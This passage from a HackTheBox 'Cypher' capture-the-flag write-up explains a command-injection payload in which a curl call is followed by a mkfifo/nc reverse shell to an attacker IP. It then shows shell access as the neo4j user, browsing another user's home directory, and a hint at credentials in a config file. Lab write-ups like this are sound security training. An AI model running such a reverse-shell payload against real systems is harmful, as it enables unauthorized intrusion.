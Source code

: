 First part of the payload (`http://10.10.14.217:5555`) is used to complete the command.
the second part after `;` is the actual payload triggering the reverse shell. See how it will be the resulting command

```bash
/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} http://10.10.14.217:5555; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.217 4444 >/tmp/f
```

To execute the reverse shell, two listeners are initiated on the attacker machine: the first on port `5555` and the second on port `4444`, which receives the shell connection. After triggering the payload via the `5555` listener, a connection is established on `4444`, granting access as the `neo4j` user.

![alt text](../assets/img/posts/2025-08-20-htb-writeup-cypher/image-5.png)

But there's a different user on the machine called `graphasm`

```bash
neo4j@cypher:/home$ ls
ls
graphasm
neo4j@cypher:/home$ cd graphasm
cd graphasm
neo4j@cypher:/home/graphasm$ ls
ls
bbot_preset.yml  user.txt
neo4j@cypher:/home/graphasm$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```

and also file on `graphasm` user called `bbot_preset.yml` has some credentials in it
